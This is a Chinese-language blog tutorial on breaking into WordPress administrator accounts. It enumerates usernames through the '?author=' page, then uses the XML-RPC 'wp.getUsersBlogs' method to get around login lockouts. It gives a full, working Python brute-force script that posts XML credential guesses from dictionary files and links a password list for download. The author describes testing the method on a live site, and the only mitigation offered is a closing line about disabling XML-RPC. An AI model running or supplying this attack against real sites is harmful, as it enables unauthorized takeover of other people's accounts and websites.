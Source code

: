 首先要说一下，一个正常点的网站，你用暴力破解登录的话，都是几乎无法实现的，举个例子。
### 举个暴力破解QQ的例子：
	
> - 1.你暴力破解QQ密码，输入错误几次之后验证码也出来了。
> - 2.验证码的问题比较好搞，找个识图的代码，识别图片中的二维码，即可。继续破解。
> - 3.是的 二维码可以搞定，但是你输入错误次数超过30次之后，该账号24小时内再提交密码都无效了。

### 举个我自己亲测暴力破解wordpress站点管理员密码的例子：
我穷举wordpress 的账户密码，post到xxx.com/wp-admin.php上，结果：没几下我就发现网站打不开了。然后，用同事们的机器，也是打不开，我以为网站挂了，结果不是，我发现用3G网可以打开。看样wordpress直接屏蔽了我们的ip段，一个小时后又可以访问了。 所以我放弃了，对wp-admin.php的破解。

只能另辟蹊径。

----------
## 1.wordpress自带的 **author漏洞**。

wooyun曾经爆出的WordPress的一个bug，就是再主网址尾部追加/?author=index之后可以爆出user表中的id==index的账户名。
#  
比如： **http://xxx.com/?author?=1** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>


    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>admin | 此处隐藏网站名</title>
	<!--  重点在这里 -->
``` 

比如： **http://xxx.com/?author?=2** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta name="generator" content="WordPress 3.8.3" />
<meta name="robots" content="noodp,noydir" />

    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">


    <title>Nothing found for  ?author=2</title>
    <!--  重点在这里 -->
```
# 
ok，此处可以看出该站只有一个管理员 用户名是**admin**。
那么好了，我们暴力破解本来还需要猜用户名的，现在用户名不用猜了，只要猜密码，我们就省了很多事。

# 
## 2.wordpress自带的 **XMLRPC漏洞**。

wordpress官网对这个功能进行了解释：  [点击跳转到wordpress官网](http://codex.wordpress.org/XML-RPC_wp#wp.getUsersBlogs)
	
如下是我摘抄的一段：
# 
wp.getUsersBlogs

	检索用户的博客。
参数
	
	用户名的字符串
	字符串密码
返回值
	> - 数组
		 > - +    结构
	 - 布尔型 isAdmin
	 - 字符串 url
	 - 文章的 blogid 的字符串
	 - 字符串 blogName
	 - 字符串 xmlrpc

wp.getTags

	得到所有标记的列表。

...
...
...
# 
我就不在往下写了，下面的也是调用这个接口传递用户名，密码，传递其他参数用于获得一些数据的一些表，比如文章列表之类的。

从wordpress官网看其他的一些功能，可以看出这个xmlrpc应该是开放给客户端使用的。



# 
那么我们在wordpress主站地址后追加：**/xmlrpc.php**即可得到如下截图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a000669)

**XML-RPC server accepts POST requests only**.
是告诉我们需要用post方式提交。

从这个文件名xmlrpc的命名来看，这里应该是提交xml格式的才对。
我们来试下模拟post提交，来验证我们的猜想：
# 
上图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a00066b)

这里报了一个错误，说转换出错，很显然post提交不了。跟wordpress官网说的一样，这个接口需要提交xml格式的。

格式 的例子如下：
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
   <param><value>username</value></param>
   <param><value>password</value></param>
  </params>
</methodCall>
```
我试着在chrome里提交一下：
![](https://leanote.com/api/file/getImage?fileId=563cdfc138f41125df00074f)
这个接口已经走通了，为了测试这个接口如果出错不会被服务器拉黑ip，我刷新了20次，确定这个接口可用。终于放心了唉。

下面就是写个python程序，进行循环post xml进行验证了。


``` python

#  佛祖保留代码无bug 
'''
漏洞详情请查看：http://www.freebuf.com/articles/web/38861.html
'''
import urllib2
import re

def ReadMe():
    print """说明：
    1.在本文件同目录下新建usernames.txt、passwords.txt分别存入用户名、密码字典
    2.按提示输入WordPress站点(例如:www.freebuf.com)
    """

def GetUrl():
    urlinput=raw_input("请输入wordpress站点:")
    requrl="http://"+re.match(r"(http://)?(.*)",urlinput).expand('\g<2>')+"/xmlrpc.php"
    print "尝试利用:"+requrl
    return requrl
   
def Aviable(requrl):
    
    try:
        result = urllib2.urlopen(url=requrl).read()
    except urllib2.URLError:
        print "抱歉，此站点漏洞不可用"
        return False
    else :
        if result == "XML-RPC server accepts POST requests only.":
            print "\n该站点存在此漏洞,尝试破解中:"
            return True
        else :
            print "抱歉，此站点漏洞不可用"
            print "网页返回：\n    "+result
            return False
    
def Exploit():
    requrl=GetUrl()
    if Aviable(requrl) :
    #usernames.txt 文件中其实只有一个用户名，因为我们通过author漏洞获取到了管理的用户名。
        f_username=open("usernames.txt","r")
        f_password=open("passwords.txt","r")
        num=0
        Flag=0
        for name in f_username:
            if Flag == 1:
                break
            for key in f_password:
                if num % 10 == 0:
                    print "已尝试"+str(num)+"个"
                if len(key)<8:
                    continue #wordpress管理员密码长度最短是8  所以这里小于8的跳过
                reqdata='<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs\
                        </methodName><params><param><value>'+ name + \
                        '</value></param><param><value>'+ key  +\
                        '</value></param></params></methodCall>'
                req = urllib2.Request(url=requrl,data=reqdata)
                result = urllib2.urlopen(req).read()
                num=num+1
                if "isAdmin" in result :
                    print "Got it !"
                    print "username :"+name+"password :"+key
                    Flag = 1
                    break
                    
                elif "faultString" and "403" in result :
                    continue 
                    
                else :
                    print "Unknown error"
        print "抱歉，在此字典中并未找到正确的密码"
        
if __name__ == '__main__' :
    ReadMe()
    Exploit()

```

# 
执行效果如下：

![](https://leanote.com/api/file/getImage?fileId=563cd4d638f411249a000681)



# 
wordpress不知道现在已经到了什么版本了，但是目前，这个漏洞还是存在的，避免这个漏洞方式很简单，关闭这个功能即可。
# 
PS：
	 补充点：有些人觉得自己的字典不够全，我这里共享一个别人的密码集合：
[点击跳转](http://www.xdowns.com/soft/8/114/2012/Soft_88561.html)



